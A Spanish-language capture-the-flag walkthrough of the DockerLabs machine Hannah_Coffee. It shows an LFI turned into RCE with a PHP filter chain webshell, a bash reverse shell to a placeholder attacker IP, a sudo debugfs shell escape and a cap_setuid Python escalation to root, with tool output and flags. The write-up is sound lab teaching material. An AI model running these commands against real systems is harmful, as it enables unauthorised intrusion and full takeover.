









# Hannah\_Coffee DockerLabs (Easy)

# Contexto de la maquina
## Trayectoria Hannah_coffee

<figure><figcaption></figcaption></figure>

## Descripción

**Hannah_coffee** es una máquina Linux de dificultad **Easy** en DockerLabs que encadena tres vulnerabilidades bien diferenciadas para comprometer el sistema completo.

El acceso inicial se consigue mediante un **LFI** (Local File Inclusion) descubierto a través de fuzzing de parámetros web. El parámetro `?studio=` permite incluir archivos del servidor directamente en la respuesta. Este LFI se convierte en **RCE** usando la técnica de **PHP Filter Chain**: el generador `php_filter_chain_generator.py` construye una cadena larga de filtros de conversión de codificación que, al ser evaluada por el intérprete PHP como wrapper `php://filter`, produce código PHP ejecutable arbitrario sin necesitar escribir ningún archivo en disco.

La escalada al usuario `hannah` se consigue abusando del permiso `sudo debugfs -w /opt/hannah_disk.img`: `debugfs` es una herramienta de inspección de sistemas de archivos ext2/3/4 que incluye una función de escape de shell (`!/bin/bash`), ejecutándose en el contexto del usuario objetivo. Finalmente, la escalada a `root` se realiza aprovechando que el binario `/opt/priv-python` tiene la **capability `cap_setuid=ep`** mal asignada, lo que permite establecer el UID a `0` desde código Python y obtener una shell de `root`.

**Objetivo**

- Identificar el LFI en el parámetro `?studio=` mediante fuzzing de parámetros.
- Convertir el LFI en RCE usando PHP Filter Chain.
- Abusar de `sudo debugfs` con imagen de disco para escalar a `hannah`.
- Explotar la capability `cap_setuid` del binario `priv-python` para escalar a `root`.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Debian)
- Categoría principal: Web / Linux Privilege Escalation
- Componentes involucrados:
    - Parámetro `?studio=` vulnerable a LFI.
    - PHP Filter Chain para RCE sin escritura de archivos.
    - `sudo debugfs -w` con escape de shell (`!/bin/bash`).
    - `cap_setuid=ep` en intérprete Python personalizado (`priv-python`).
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip hannah_coffee.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh hannah_coffee.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-23 09:08 +0000
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
80/tcp open  http    Apache httpd 2.4.68 ((Debian))
|_http-title: Hannah's Coffee
```

Dos puertos abiertos:

- **Puerto 21** → FTP (vsftpd 3.0.5). Nmap no indica login anónimo, lo dejamos aparcado.
- **Puerto 80** → HTTP (Apache 2.4.68). Aloja la web **Hannah's Coffee**, que será el punto de entrada.
## Enumeración web inicial

<figure><figcaption></figcaption></figure>

Accedemos a la web:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Vemos una página de cafetería. Al pulsar los botones del menú superior, la URL cambia a:

```
URL = http://<IP>/index.php?page=home
```

El parámetro `?page=` carga el contenido de forma dinámica. Esto es un candidato claro a **LFI**: si el servidor incluye el archivo indicado por ese parámetro sin validarlo, podríamos apuntar a rutas del sistema. Sin embargo, el fuzzing sobre `?page=` no da resultados directos, lo que sugiere que puede haber otro parámetro oculto.
# LFI
## Fuzzing de directorios con Gobuster

Antes de buscar parámetros alternativos, enumeramos el servidor para encontrar rutas que nos den más contexto:

```bash
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Respuesta:

```
pages                (Status: 200) [Size: 1568]
index.php            (Status: 200) [Size: 963]
server-status        (Status: 403) [Size: 315]
```
## Directory listing en /pages/

Accedemos a la ruta `pages`:

```
URL = http://<IP>/pages/
```

Respuesta:

<figure><figcaption></figcaption></figure>

El servidor tiene el **directory listing** habilitado en `/pages/`, mostrando los archivos PHP que componen la web. Esto confirma que la aplicación carga esos archivos dinámicamente usando un parámetro, y es muy probable que exista un parámetro alternativo a `?page=` que lo haga de forma vulnerable.
## Descubrimiento del parámetro LFI con FFUF

Fuzzeamos el nombre del parámetro, apuntando todos los valores probados a `/etc/passwd`. El flag `-fw 198` filtra las respuestas con 198 palabras, que es el tamaño de la respuesta cuando el parámetro no existe o no tiene efecto:

```bash
ffuf -u "http://<IP>/index.php?FUZZ=/etc/passwd" -w <WORDLIST> -t 100 -fw 198
```

Respuesta:

```
studio     [Status: 200, Size: 1896, Words: 154, Lines: 50, Duration: 724ms]
```

El parámetro `studio` responde con un tamaño diferente al del resto, lo que indica que está incluyendo el contenido de `/etc/passwd` en la respuesta. Verificamos:

```
URL = http://<IP>/index.php?studio=/etc/passwd
```

Respuesta:

<figure><figcaption></figcaption></figure>

El contenido de `/etc/passwd` se muestra directamente en la página. El LFI está confirmado.
# Escalate user www-data

<figure><figcaption></figcaption></figure>

## Conversión de LFI a RCE con PHP Filter Chain

Un LFI que solo lee archivos del servidor es útil para reconocimiento (leer configs, credenciales, etc.), pero lo realmente potente es convertirlo en **RCE**. La técnica **PHP Filter Chain** lo consigue sin necesidad de subir ningún archivo al servidor.

El principio es el siguiente: el wrapper `php://filter` de PHP permite encadenar transformaciones sobre el contenido de un recurso antes de incluirlo. La herramienta `php_filter_chain_generator.py` construye una cadena muy larga de filtros `convert.iconv.*` que, al ser aplicados en secuencia, producen como salida cualquier string PHP arbitrario que queramos. Cuando `index.php` incluye esa cadena de filtros a través del parámetro `studio=`, PHP la evalúa, obtiene el código PHP resultante y lo ejecuta.

Descargamos el generador:

URL = [Download php_filter_chain_generator.py GitHub](https://github.com/synacktiv/php_filter_chains_oracle_exploit/blob/main/filters_chain_oracle_exploit.py)

Generamos la cadena de filtros para un webshell que lea el parámetro `cmd` y ejecute su contenido como comando del sistema:

```bash
python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

La salida comienza con `php://filter/convert.iconv.UTF8.CSISO2022KR|...` y es extremadamente larga (varias líneas de filtros encadenados). Copiamos todo el bloque que empieza por `php://...` y lo usamos como valor del parámetro `studio=`.
## Verificación del RCE

Probamos el webshell con el comando `id`:

```
URL = view-source:http://<IP>/index.php?cmd=id&studio=<CADENA_PHP_FILTER>
```

Respuesta:

<figure><figcaption></figcaption></figure>

La respuesta muestra `uid=33(www-data)`. El PHP Filter Chain funcionó y tenemos RCE como `www-data`.
## Obtención de la reverse shell

Nos ponemos a la escucha:

```bash
nc -lvnp <PORT>
```

Los caracteres especiales `>`, `&` deben ir codificados en URL para que el navegador/curl los transmita correctamente al servidor sin interpretarlos como operadores de redirección. `>` = `%3E`, `&` = `%26`:

```
URL = view-source:http://<IP>/index.php?cmd=bash -c "bash -i %3E%26 /dev/tcp/<IP_ATTACKER>/<PORT_ATTACKER> 0%3E%261"&studio=<CADENA_PHP_FILTER>
```

Si volvemos donde tenemos la escucha:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 59930
www-data@7854b50600fb:/var/www/html$ whoami
www-data
```

Tenemos shell como `www-data`. Sanitizamos la TTY.
## Sanitizacion shell (TTY)

La shell obtenida a través de una reverse shell suele ser muy limitada: no tiene autocompletado, no permite usar atajos de teclado como `Ctrl+C` sin matar la sesión, y en general es bastante incómoda. Por eso realizamos el siguiente proceso para convertirla en una TTY completamente interactiva:

```shell
script /dev/null -c bash
```

```shell
# Suspendemos el proceso con Ctrl+Z
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Consultamos las dimensiones de nuestra terminal local
stty size

# Ajustamos las dimensiones de la shell remota para que coincidan
stty rows <ROWS> columns <COLUMNS>
```
# Escalate user hannah

<figure><figcaption></figcaption></figure>

## Enumeración de permisos sudo

```bash
sudo -l
```

Respuesta:

```
User www-data may run the following commands on 7854b50600fb:
    (hannah) NOPASSWD: /sbin/debugfs -w /opt/hannah_disk.img
```

Podemos ejecutar `debugfs` como `hannah` sin contraseña. **`debugfs`** es una herramienta de depuración y reparación de sistemas de archivos ext2/3/4. El flag `-w` abre la imagen en modo escritura. Accedemos al sistema de archivos de la imagen:

```bash
sudo -u hannah /sbin/debugfs -w /opt/hannah_disk.img
```

Respuesta:

```
debugfs 1.47.2 (1-Jan-2025)
debugfs:
```
## Exploración de la imagen de disco

Listamos el contenido del sistema de archivos de la imagen:

```bash
ls -l /
```

Respuesta:

```
     11   40700 (2)      0      0   12288  6-Aug-2026 08:46 lost+found
     13  100644 (1)      0      0      19  6-Aug-2026 08:46 hannah_secret.txt
```

Hay un archivo `hannah_secret.txt`. Lo leemos:

```bash
cat hannah_secret.txt
```

Respuesta:

```
G'2'ZkcHsulI*vE+D,
```

Podría ser la contraseña de `hannah`, pero probándola en `su hannah` no funciona. No importa, porque dentro de la shell de `debugfs` podemos lanzar directamente una shell del sistema operativo usando el **escape de shell** que incluye `debugfs`: la sintaxis `!comando` ejecuta cualquier comando en el sistema subyacente con los privilegios del proceso `debugfs`, que está corriendo como `hannah`:
## Escape de shell desde debugfs

```bash
!/bin/bash
```

Respuesta:

```
hannah@7854b50600fb:/var/www$ whoami
hannah
```

Somos `hannah`. Leemos la flag del usuario:

> user.txt

```
dl{user_eedfcf739a076a72412c89a1354a4119}
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Análisis del directorio /opt

```bash
ls -la /opt/
```

Respuesta:

```
-rw-rw-rw- 1 root root   67108864 Aug  6 08:46 hannah_disk.img
-rwxr-x--- 1 root hannah  6812336 Aug  6 08:46 priv-python
```

Hay un binario llamado `priv-python` ejecutable por `hannah`. Al ejecutarlo vemos que es un intérprete de Python completo. El nombre sugiere que fue creado específicamente con algún privilegio adicional. Comprobamos sus capabilities:
## Identificación de la capability cap_setuid

```bash
getcap / -r 2>/dev/null
```

Respuesta:

```
/opt/priv-python cap_setuid=ep
```

El binario tiene `cap_setuid=ep`. Las **capabilities de Linux** son una forma de dividir los privilegios de `root` en unidades más pequeñas y asignarlas a procesos sin darles `root` completo. La capability `cap_setuid` permite al proceso llamar a `setuid()` para cambiar su UID a cualquier valor, incluyendo `0` (root). Los modificadores `e` (effective) y `p` (permitted) significan que la capability está activa tanto en el conjunto efectivo como en el permitido, lo que hace que cualquier llamada a `setuid(0)` tenga efecto inmediato.
## Verificación del comportamiento de cap_setuid

Confirmamos el funcionamiento antes de escalar:

```bash
/opt/priv-python -c 'import os; print("UID:", os.getuid())'
/opt/priv-python -c 'import os; os.setuid(0); print("UID después:", os.getuid())'
```

Respuesta:

```
UID: 1001
UID después: 0
```

`setuid(0)` funciona correctamente, cambiando el UID de `1001` (hannah) a `0` (root).
## Escalada a root

Con esto confirmado, lanzamos una shell de `root` directamente usando `os.execv`, que reemplaza el proceso actual de Python por `bash` manteniendo el UID `0` que acabamos de establecer:

```bash
/opt/priv-python -c 'import os; os.setuid(0); os.execv("/bin/bash", ["/bin/bash", "-p"])'
```

Respuesta:

```
root@7854b50600fb:/opt# whoami
root
```

Ya somos `root`. Leemos la flag final:

> root.txt

```
dl{root_d5cc9d7538dc7c341cd96bba5a951520}
```

